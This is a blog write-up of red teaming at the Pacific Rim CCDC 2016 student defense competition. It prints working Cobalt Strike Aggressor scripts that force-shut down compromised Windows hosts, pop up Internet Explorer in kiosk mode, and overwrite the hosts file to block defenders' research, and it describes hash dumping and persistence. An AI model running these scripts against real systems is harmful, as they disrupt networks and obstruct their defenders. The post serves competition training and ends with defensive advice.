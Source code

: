 ```yaml
---
layout: post
title: Red Teaming for Pacific Rim CCDC 2016
summary: Preparation, Automation, Aggressor Scripts, and thoughts about 2016's Pacific Rim CCDC. 
tags:
- ccdc
- cobalt strike
- aggressor
commentIssueId: 12
---
```


Six weeks ago I had the opportunity to Red Team for [Pacific Rim CCDC](https://www.prccdc.org/). I love doing this competition because it gives me a chance to do things one would never be allowed to do on a real network and it forces me think about a different set of problems than a pentest or red team engagement. In this post I will discuss my thoughts and experiences before, during, and after this year's competition. 

# Preparation

[Last year]({{site.baseurl}}/2015-04-15-how-i-prepared-to-red-team-at-prccdc-2015/) I made a few goals for myself, mostly centered around preparation. About a month before the competition some friends and I collaborated to prepare for the competition.

## Operations Plan
The first piece of preparation is making an Operations Plan. The Ops Plan is a runbook of sorts containing all of the functionality we want to be able to execute during the competition. For each action or attack we listed out copy/paste commands, workflows, and/or tool modules. The goal is to minimize the amount of searching required during the competition. 

I've uploaded a sample from our Ops Plan to GitHub [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/OpsPlan2016.txt). Shoutout to [@sw4mp_f0x](https://twitter.com/sw4mp_f0x), [@beyondnegative](https://twitter.com/beyondnegative), [@ahayden](https://twitter.com/ahayden), and [@primarytyler](https://twitter.com/primarytyler) for working on prep with me.


## Automation
Once we had a foundational Ops Plan in place, the next step was to automate as many of the functions as possible. The competition is frenetic from start to finish, so the ability to execute attacks quickly is critical. The primary attack platform I planned on using was [Cobalt Strike](https://www.cobaltstrike.com/), with [Powershell Empire](http://www.powershellempire.com/) as a secondary platform. 

Cobalt Strike offers an extremely powerful built-in scripting language: [Aggressor](https://www.cobaltstrike.com/help-scripting). Versions of Cobalt Strike prior to 3.0 used [Cortana](http://www.advancedpentest.com/help-scripting-cortana) script, which is incompatible with Aggressor. This was my first foray into using Aggressor script and I am very happy that I dove in. Aggressor scripts provide the ability to extend Cobalt Strike's functionality and GUI with built-in commands as well as using the [Sleep](http://sleep.dashnine.org/manual/) language directly. Since Sleep allows Java objects to be incorporated into scripts, the usage options are nearly limitless.

### Shutdown
After reading Raphael Mudge's resources on Aggressor and Sleep (linked below), I started easy with a CCDC equivalent of *Hello World*: shutting down all selected boxes. 

```perl
popup beacon_bottom {
	menu "Lulz" {
		item "Shutdown Host" {
			prompt_confirm("Are you SURE you want to bounce the box(es)?", "Confirm", lambda({
				blog(@ids,"shutting down");
				bshell(@ids, "shutdown /s /f /t 00 -d up:125:1");
			}, @ids => $1));
		}
	}
}
```
Lines 1-3 configure the GUI, placing the context menu (right click) item *Shutdown Host* under a parent menu of *Lulz*. Lines 4-7 prompt the user for confirmation to shut down all hosts. If the user selects OK, all hosts are issued the shell command `shutdown /s /f /t 00 -d up:125:1`.

### Internet Explorer Popup
Last year we launched Internet Explorer in kiosk mode to Justin Bieber's homepage to spread some Bieber Fever to the Blue Teams. For this year, I wanted to automate this and be able to quickly change the URL Internet Explorer opens.

```perl
item "IE Kiosk Popup" {
		prompt_text("What site do you want to pop up?", "https://google.com", lambda({
			binput(@ids,"C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
			bshell(@ids, "C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
		}, @ids => $1));
}
```
To include this within the *Lulz* context menu parent, simply insert this code before the closing menu curly bracket, like this:

```perl
popup beacon_bottom {
	menu "Lulz" {		
		item "IE Kiosk Popup" { 
			CODE GOES HERE
		}
		item "Shutdown Host" { 
			CODE GOES HERE
		}
	}
}
```

### Host File Stomp
Blue Teams and Red Teams alike use the internet during the competition, researching how to remediate vulnerabilities, looking up that default credential for the router, the list goes on. The difference is that ideally the Blue Team's hosts are owned in multiple ways, so why not use that to our advantage to slow the research efforts? This script stomps the target(s) host file with a selected file and clears the DNS cache.

```perl
item "Replace Host File" {
	prompt_file_open("Choose a file to replace the current host file:", "hosts.txt", false, lambda({
		bcd(@ids,"c:\\windows\\system32\\drivers\\etc");
		brm(@ids,"hosts");
		blog(@ids,"Uploading file $1 to c:\\windows\\system32\\drivers\\etc\\hosts");
		bupload(@ids,$1);
		bshell(@ids, "ipconfig /flushdns");
		blog(@ids,"File uploaded and DNS flushed. Done!");
	}, @ids => $1));
}
```

Line 2 prompts the user for a file. Once selected, the file is assigned the `$1` variable and the lambda function is evaluated. The lambda function is used to evaluate the lines within the parenthesis inline, lines 4 - 9 in this case. Those lines handle the removal of the current host file, upload of the selected file, and flushing of the hosts' DNS. 

### Script Files

I've uploaded these and a couple other scripts to my GitHub repo for [Aggressor scripts](https://github.com/bluscreenofjeff/AggressorScripts). These examples hopefully provide enough info to get your mind turning about other devious things you can cook up before next year's competition.

Having the ability to write Aggressor scripts to automate specific Red Team functions during the competition can be a real lifesaver. 

### Aggressor Script Resources:

* [Aggressor Script Intro](https://www.cobaltstrike.com/help-scripting)
* [Aggressor Script Documentation](https://www.cobaltstrike.com/aggressor-script/index.html)
* [My Cobalt Strike Scripts from NECCDC -- Raphael Mudge](http://blog.cobaltstrike.com/2016/03/16/my-cobalt-strike-scripts-from-neccdc/)
* [Cobalt Strike 3.1 - Scripting Beacons -- Raphael Mudge](http://blog.cobaltstrike.com/2015/12/02/cobalt-strike-3-1-scripting-beacons/)
* [Real-Time Feed of Red Team Activity -- Raphael Mudge](http://blog.cobaltstrike.com/2016/01/13/real-time-feed-of-red-team-activity/)
* [Sleep Manual](http://sleep.dashnine.org/manual/)


# The Competition

This year my friend [@sw4mp_f0x](https://twitter.com/sw4mp_f0x) and I were on the Windows Meta Team together, which means we attacked every team's Windows boxes in effort to spread equal *love* to everyone. We both have competed together before, but not against every team; it was an exciting challenge. 

As soon as the competition started there was a mad dash for all teams to find initial access points. To do this we made up IP lists with all hosts for all teams and configured different initial access scripts (such as in Metasploit) to be ready for when new credentials were received. Nothing beats seeing those first few Beacons come rolling in at the start of the day. Once access started getting established it was critical to drop persistence as quickly as possible on as many hosts as possible. We used primarily scripted Aggressor to drop persistence. We came prepared with a few of these scripts but ended up making a few new ones on the fly and at the hotel at night.

With a baseline established, the name of the game was credential management. We needed to keep the credentials fresh and ready to go. With 12 teams and dozens of users per domain, this was not an easy task. In an environment like this (see: not trying to be quiet at all), I like to err on the side of dumping credentials and hashes now just in case I need them later. So once I compromised a domain controller a hashdump wasn't too far behind. You can imagine how Cobalt Strike's credential store looked. While this didn't pose an issue for some hosts, there were hosts present on all teams that shared IP addresses. This meant that any given credential on one of those hosts could belong to one or 12 different teams. Not ideal. 

Overall being on the Windows Meta Team was a challenge and a blast. I came away from the competition having learned some new tricks (like running *explorer.exe* on a sticky keys cmd prompt to use the GUI) and more ideas for both next year's competition and real life tests.

# After the Ruckus

The Blue Team debrief is particularly fun. Throughout the competition I find myself wondering what the Blue Team thinks of a particular attack or annoyance. Wondering if the defenders even know which systems we've compromised. The debrief is the time to answer a lot of those questions. I was able to speak with a few teams during the debrief, which was great.

Here are some of the key points and suggestions I made to Blue Teams:

* Become familiar with Red Team tactics. Knowing the pathways an attacker may try to get into your network will help you block those paths.
* Automate as much as you can. If the Red Team has a script to break something, have a script to fix it. Make sure you follow the rules about not using private scripts.
* Change passwords FREQUENTLY. There were accounts whose credentials didn't change once throughout the competition.
* Disable any account that's not needed or off-limits. If you aren't using built-in accounts, disable them all.
* Remove admin rights from any user or group that doesn't explicitly require that access. Given the size of the Blue Team's network, it may make sense to remove/disable Domain Admin rights entirely on the domain and explicitly assign rights on a per-host basis. For example, perhaps the Blue Team decides to disable all administrative groups in the domain and rely on local accounts with rotating unique passwords per-host. 
* Audit admin rights, account statuses, and new accounts (local and domain) throughout the competition.

# Closing Thoughts

The CCDC competition is a lot of fun. It's thrilling to be able to try attacks or annoy users in ways that are not fit for a production network. Doing that exercises a different part of your brain and hopefully conjure up some ideas that are suitable for real world testing. I can't wait for next year.
